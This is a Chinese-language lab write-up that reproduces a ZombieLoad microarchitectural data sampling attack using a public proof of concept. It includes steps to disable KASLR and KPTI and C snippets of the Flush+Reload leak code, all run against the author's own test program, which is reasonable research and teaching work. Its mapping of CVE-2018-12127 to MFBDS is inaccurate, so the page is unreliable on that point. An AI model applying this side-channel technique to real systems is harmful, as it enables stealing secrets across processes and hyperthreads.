



# CVE-2018-12127

## 简介

CVE-2018-12127是微架构填充缓冲区数据采样 (MFBDS)漏洞，属于侧信道漏洞。由于多核之间cache数据共享，而cache命中和失效对应响应时间有差别，攻击者可以通过访问时间的差异，推测cache中的信息，从而获得隐私数据。

详情可参见：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12127


## 环境

环境：VMware Workstation 15.5.5 with KaliLinux 2020.1

Linux kali 5.4.0-kali3-amd64 #1 SMP Debian 5.4.13-1kali1 (2020-01-20) x86_64 GNU/Linux

CPU：I7-8550U

## 准备

经过在互联网上查找资料，找到一个Github项目方便我们理解和复现漏洞，也有详细的教程：

https://github.com/IAIK/ZombieLoad

模拟的攻击过程：

* `secret`：一个可执行程序，作为`Victim`。功能是向内存中写入指定的英文字母
* `leak`：可执行程序，作为`Attacker`。功能是进行侧信道攻击窃取`secret`向内存写入的英文字母

我们采用了[方法1](https://github.com/IAIK/ZombieLoad#variant-1-linux-only)进行侧信道攻击向受害者程序`secret`窃取数据，以及采用了[运行在用户进程空间的受害者程序](https://github.com/IAIK/ZombieLoad#userspace-victim-linux-and-windows)，直接进入相应目录`make`一下备用。

[方法1](https://github.com/IAIK/ZombieLoad#variant-1-linux-only)进行侧信道攻击向受害者程序`secret`窃取数据,，需要关闭内核页表隔离(KPTI)和位址空间配置随机载入(KASLR)



关闭方法如下：

* 修改`/etc/default/grub`文件
  在文件中找到`GRUB_CMDLINE_LINUX_DEFAULT`（Debian系）或`GRUB_CMDLINE_LINUX`（RHEL系），在选项后添加`nokaslr nopti`选项。
* 刷新GRUB配置文件
  执行`sudo update-grub`（Debian系）或`sudo grub2-mkconfig -o /boot/grub2/grub.cfg`（RHEL系），等待完成即可。
* Reboot后查询开启状态
  * 如KASLR已关闭，执行`sudo cat /proc/kallsyms | grep startup_64`之后，会提示地址为`ffffffff81000000`，说明关闭成功。
  * 如KPTI已关闭，执行`sudo dmesg | grep ‘page tables isolation’`，弹出信息含有disabled或无内容说明关闭成功。

## 复现

攻击要求受害者程序和攻击者程序必须运行在同个对应的物理内核当中，但是可以运行在物理内核里的不同[超线程(Hyperthread)](https://en.wikipedia.org/wiki/Hyper-threading)上面。

通过`lscpu -e`可以查看所有的逻辑处理器对应的物理内核，随便选一对作为本次复现所用的就好了



通过`taskset -c coreid ./executable`可以令可执行程序运行在指定的逻辑处理器上

先运行`secret`，指定它运行在2号逻辑处理器里。默认情况下该程序是将字母`X`写入内存，我们这里指定了`A`



然后运行`leak`，指定它运行在3号逻辑处理器里，因为逻辑处理器2和3都对应1这个物理内核，所以在相同的物理内核里，`leak`程序就可以窃取到`secret`程序向内存写入的数据，如下的直方图展示了侧信道攻击目前的进行状况，可以把括号内的数字或者`#`的长度理解为“可能性相对值”。数字最大的，代表着窃取到的可能性最大的数据。


运行一段时间可以看见字母`A`对应的数值一直维持最高，而我们在`secret`中也指定了向内存中写入`A`，如此一来，就验证了漏洞，并复现成功。

## 代码分析

此处攻击代码采用的是`Flush-Reload`方法进行：

Flush-Reload（FR）方法是prime-probe方法的变种，基于共享内存实现，是一种跨内核、跨虚拟机的Cache 探测方法。在Flush 阶段，攻击者将监控的内存块从cache中驱逐出去，然后在Trigger阶段等待目标用户访问共享内存。在Reload阶段，攻击者重新加载监控的共享内存块。如果在等待的期间，目标虚拟机访问过的内存块不需要重新加载，时间将会较短，因为这些数据已经被缓存在cache中。根据加载时间长短，可判定目标虚拟机访问过的数据。

代码具体步骤如下：

1. 计算cache miss时间：

```c
CACHE_MISS = detect_flush_reload_threshold();
fprintf(stderr, "[+] Flush+Reload Threshold: %zu\n", CACHE_MISS);
```

```c
size_t detect_flush_reload_threshold() {
  size_t reload_time = 0, flush_reload_time = 0, i, count = 1000000;
  size_t dummy[16];
  size_t *ptr = dummy + 8;

  maccess(ptr);
  for (i = 0; i < count; i++) {
    reload_time += reload_t(ptr);
  }
  for (i = 0; i < count; i++) {
    flush_reload_time += flush_reload_t(ptr);
  }
  reload_time /= count;
  flush_reload_time /= count;

  return (flush_reload_time + reload_time * 2) / 3;
}
```


2. Flush：将共享内存中特定位置映射的cache数据驱逐

```c
void flush(void *p) { asm volatile("clflush 0(%0)\n" : : "c"(p) : "rax"); }

flush(mapping);
```

3. Trigger：等待目标虚拟机响应服务请求，更新Cache

在受害者程序中：

```c
 // load value all the time
  while(1) {
    for(int i = 0; i < 100; i++) maccess(secret + i * 64);
  }
```

3. Reload：重新加载Flush阶段驱逐的内存块，测量并记录cache组的重载时间


```c
void recover(void) {
  // Recover value from cache and update histogram
  int update = 0;
  for (size_t i = FROM; i <= TO; i++) {
    if (flush_reload((char *)mem + 4096 * i)) {
      hist[i]++;
      update = 1;
    }
  }

  // If new hit, display histogram
  if (update) {
    printf("\x1b[2J");
    int max = 1;
    for (int i = FROM; i <= TO; i++) {
      if (hist[i] > max) {
        max = hist[i];
      }
    }
    for (int i = FROM; i <= TO; i++) {
      printf("%c: (%4d) ", i, hist[i]);
      for (int j = 0; j < hist[i] * 60 / max; j++) {
        printf("#");
      }
      printf("\n");
    }
    fflush(stdout);
  }
}

```
